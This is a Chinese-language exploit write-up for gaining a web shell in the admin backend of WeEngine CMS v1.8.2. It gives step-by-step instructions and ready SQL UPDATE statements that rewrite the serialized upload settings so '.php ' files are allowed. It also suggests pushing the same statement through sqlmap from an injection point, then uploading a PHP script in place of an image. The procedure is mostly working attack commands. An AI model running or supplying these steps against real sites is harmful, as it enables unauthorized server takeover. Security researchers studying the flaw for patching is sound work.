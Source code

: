 微擎cms 后台getshell
====================

一、漏洞简介
------------

二、漏洞影响
------------

v1.8.2（201812130002）

三、复现过程
------------

站点-附件设置-支持文件后缀

![](./.resource/微擎cmsv1.8.2后台getshell/media/rId24.png)

在安装完成的时候,数据库里面并没有写入支持文件后缀的值,需要我们进行添加需要的脚本格式php等等

![](./.resource/微擎cmsv1.8.2后台getshell/media/rId25.png)

直接写上支持的后缀为php是会带入到数据库的,提交完毕以后数据库会显示可上传的值

    a:3:{s:16:"attachment_limit";  
    i:0;s:5:"image";a:5:{s:5:"thumb";i:0;s:5:  
    "width";i:800;s:10:"extentions";  
    a:4:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;s:3:"png";}  
    s:5:"limit";i:5000;s:14:"zip_percentage";s:3:"100";}  
    s:5:"audio";a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}

### 漏洞利用

写入任意字符

![](./.resource/微擎cmsv1.8.2后台getshell/media/rId27.png)

    a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
    a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
    a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
    s:3:"png";i:4;s:3:"aaa";}s:5:"limit";i:5000;
    s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
    a:2:{s:10:"extentions";  a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}

站点-常用工具-数据库-执行SQL语句替换之前插入的值 (记得打开调试模式)

    UPDATE ims_core_settings SET value = replace(value, 'aaa', 'php ')

注意php后有一个空格

or 如果在渗透过程中有SQL注入点的情况下
有用户权限能够上传,尝试直接在SQLMAP执行语句

    UPDATE `ims_core_settings` SET
    `key` = 'upload',
    `value` = 'a:2:{s:5:\"image\";a:4:{s:5:\"thumb\";i:0;  
    s:5:\"width\";i:800;s:10:\"extentions\";  
    a:5:{i:0;s:3:\"gif\";i:1;s:3:\"jpg\";i:2;  
    s:4:\"jpeg\";i:3; s:3:\"png\";i:4;s:3:\"php \";}  
    s:5:\"limit\";i:5000;}s:5:\"audio\";  
    a:2:{s:10:\"extentions\";a:1:{i:0;s:3:\"mp3\";}s:5:\"limit\";i:5000;}}'
    WHERE `key` = 'upload' AND `key` = 'upload' COLLATE utf8mb4_bin;

![](./.resource/微擎cmsv1.8.2后台getshell/media/rId28.png)

    a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
    a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
    a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
    s:3:"png";i:4;s:3:"php ";}s:5:"limit";i:5000;  
    s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
    a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}}

执行完毕-系统-更新缓存

![](./.resource/微擎cmsv1.8.2后台getshell/media/rId29.png)

### 上传php文件

以上全部操作完毕,直接在可以上传图片的地方进行上传脚本

![](./.resource/微擎cmsv1.8.2后台getshell/media/rId31.png)

四、参考链接
------------

> <https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html>
